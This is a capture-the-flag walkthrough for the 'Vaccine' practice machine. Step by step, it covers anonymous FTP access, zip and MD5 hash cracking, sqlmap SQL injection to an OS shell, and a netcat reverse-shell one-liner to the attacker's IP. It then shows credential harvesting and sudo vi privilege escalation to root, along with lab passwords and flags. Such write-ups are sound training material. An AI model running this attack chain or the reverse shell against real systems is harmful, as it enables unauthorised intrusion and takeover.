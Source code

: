![Vaccine.jpg](/assets/Tier-2/Vaccine/vaccine.jpg)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.129.36.42
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.36.42
```


**Output**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```


3. Connect for **ftp** with username **anonymous**
```bash
┌──(root㉿est)-[/home/kali]
└─| ftp 10.129.36.42
220 (vsFTPd 3.0.3)
Name (10.129.36.42:kali): anonymous
```

4. Get **backups.zip**
```bash
ftp> ls
229 Entering Extended Passive Mode (|||10516|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
```

5. Use **zip2john** to obtain hash to crack
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| zip2john backup.zip > hash.txt
```

6. Crack the password with **john** and use **rockyou.txt** dictionary
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| john --wordlist=./../rockyou.txt hash.txt 
```

7. Show the password to decrypt **backups.zip**
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| john --show hash.txt
```

**Output**
```bash
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
```

* Password is **741852963**


8. Unzip **backups.zip** and look the files.
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| unzip backup.zip 
```

```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| ls 
```

**Output**
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| ls
backup.zip  hash.txt  index.php  style.css
```

9. Cat **index.php**
```bash
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>MegaCorp Login</title>
  <link href="https://fonts.googleapis.com/css?family=Open+Sans:400,700" rel="stylesheet"><link rel="stylesheet" href="./style.css">

</head>
  <h1 align=center>MegaCorp Login</h1>
<body>
<!-- partial:index.partial.html -->
<body class="align">

  <div class="grid">

    <form action="" method="POST" class="form login">

      <div class="form__field">
        <label for="login__username"><svg class="icon"><use xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="#user"></use></svg><span class="hidden">Username</span></label>
        <input id="login__username" type="text" name="username" class="form__input" placeholder="Username" required>
      </div>

      <div class="form__field">
        <label for="login__password"><svg class="icon"><use xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="#lock"></use></svg><span class="hidden">Password</span></label>
        <input id="login__password" type="password" name="password" class="form__input" placeholder="Password" required>
      </div>

      <div class="form__field">
        <input type="submit" value="Sign In">
      </div>

    </form>


  </div>

  <svg xmlns="http://www.w3.org/2000/svg" class="icons"><symbol id="arrow-right" viewBox="0 0 1792 1792"><path d="M1600 960q0 54-37 91l-651 651q-39 37-91 37-51 0-90-37l-75-75q-38-38-38-91t38-91l293-293H245q-52 0-84.5-37.5T128 1024V896q0-53 32.5-90.5T245 768h704L656 474q-38-36-38-90t38-90l75-75q38-38 90-38 53 0 91 38l651 651q37 35 37 90z"/></symbol><symbol id="lock" viewBox="0 0 1792 1792"><path d="M640 768h512V576q0-106-75-181t-181-75-181 75-75 181v192zm832 96v576q0 40-28 68t-68 28H416q-40 0-68-28t-28-68V864q0-40 28-68t68-28h32V576q0-184 132-316t316-132 316 132 132 316v192h32q40 0 68 28t28 68z"/></symbol><symbol id="user" viewBox="0 0 1792 1792"><path d="M1600 1405q0 120-73 189.5t-194 69.5H459q-121 0-194-69.5T192 1405q0-53 3.5-103.5t14-109T236 1084t43-97.5 62-81 85.5-53.5T538 832q9 0 42 21.5t74.5 48 108 48T896 971t133.5-21.5 108-48 74.5-48 42-21.5q61 0 111.5 20t85.5 53.5 62 81 43 97.5 26.5 108.5 14 109 3.5 103.5zm-320-893q0 159-112.5 271.5T896 896 624.5 783.5 512 512t112.5-271.5T896 128t271.5 112.5T1280 512z"/></symbol></svg>

</body>
<!-- partial -->
  
</body>
</html>
```

#### Of all file we go to use:
```bash
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")
```

10. Crack **2cb42f8734ea607eefed3b70af13bbd3** use MD5, use https://crackstation.net/
![vaccine-md5.PNG](/assets/Tier-2/Vaccine/vaccine-md5.PNG)

* The password to login are: username **admin** and password **qwerty789**


11. Login with credentials

![vaccine-web.PNG](/assets/Tier-2/Vaccine/vaccine-web.PNG)


12. Use **BurpSuite** to capture a petition searching any thing.
![vaccine-search.PNG](/assets/Tier-2/Vaccine/vaccine-search.PNG)
![vaccine-petition.PNG](/assets/Tier-2/Vaccine/vaccine-petition.PNG)

13. Put the output of petition on **r.req** file
14. Use **sqlmap** to find vulnerabilities
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| sqlmap -r r.req  
```
> Here know the database service **Postgres**
---
Get a shell
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| sqlmap -r r.req --os-shell
```

15. Listen on port 4444 and use **https://www.revshells.com/** to get a reverse shell
```bash
os-shell> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.250 4444 >/tmp/f
```

16. With new shell spawn a **/bin/bash**
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

17. cat and grep for search any password in path `/var/www/html` on file `cat dashboard.php`
```bash
postgres@vaccine:/var/www/html$ cat dashboard.php | grep -i 'pass'
```


**Output**
```bash
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

18. With password **P@s5w0rd!** login to ssh
```bash
┌──(kali㉿est)-[~]
└─$ ssh postgres@10.129.36.42
```


19. Get a **User flag**
```bash
postgres@vaccine:~$ ls
11  user.txt
postgres@vaccine:~$ cat user.txt 
ec9b13ca4d6229cd5cc1e09980965bf7
```

20. List posibles binaries to exploit
```bash
postgres@vaccine:~$ sudo -l
```

**Output**
```bash
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

21. Use https://gtfobins.github.io/ to search exploit with **vi**
![vaccine-vi.PNG](/assets/Tier-2/Vaccine/vaccine-vi.PNG)


22. Edit file **/bin/vi /etc/postgresql/11/main/pg_hba.conf**
```bash
postgres@vaccine:~/11/main$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

23. Spawn a **terminal with root** and cat a flag

```bash
# cd root
# ls
pg_hba.conf  root.txt  snap
# cat root.txt  
dd6e058e814260bc70e9bbdef2715849
```